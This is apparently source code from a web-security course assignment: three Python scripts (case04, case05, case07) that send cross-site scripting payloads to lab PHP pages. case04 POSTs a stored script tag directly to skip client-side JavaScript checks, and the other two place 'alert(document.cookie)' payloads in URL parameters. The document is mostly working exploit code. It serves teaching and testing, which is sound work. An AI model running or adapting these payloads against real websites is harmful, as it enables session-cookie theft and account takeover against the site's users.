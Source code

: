 

```python
cat  case04.py
#!/usr/bin/env python3
# same as "sample" we POST code directly to the webserver to avoid checks that are done in javascript

import urllib
import urllib.parse
import urllib.request

# do POST to the form
url_2 = 'http://www.wsb.com/Assignment2/case04.php'
# prepare the value of the form which includes the attack payload
values = dict(title='here i come', content='Exploit... <script>alert(document.cookie)</script>)' )
data = urllib.parse.urlencode(values)
#submit the form
req = urllib.request.Request(url_2, data.encode('utf-8'))
rsp = urllib.request.urlopen(req)
#read the return result
content = rsp.read()

import webbrowser
url = "http://www.wsb.com/Assignment2/case04.php"
new = 2 #open in new window
webbrowser.open(url,new=new)
```



```python
cat  case05.py
#!/usr/bin/env python3
# exploit bookmarklet  https://en.wikipedia.org/wiki/Bookmarklet

payload = 'location=javascript:alert(document.cookie)'
url_2 = 'http://www.wsb.com/Assignment2/case05.php?' + payload

import webbrowser
#open in new window
webbrowser.open(url_2, new=2)
```



```python
cat  case07.py
#!/usr/bin/env python3
# exploit more complicated bookmarklet  https://en.wikipedia.org/wiki/Bookmarklet
import urllib.parse

payload = {'timer' : '<script>alert(document.cookie)</script>'}
enc_payload = urllib.parse.urlencode(payload)

url_2 = 'http://www.wsb.com/Assignment2/case07.php?' + enc_payload

import webbrowser
#open in new window
webbrowser.open(url_2, new=2)
```
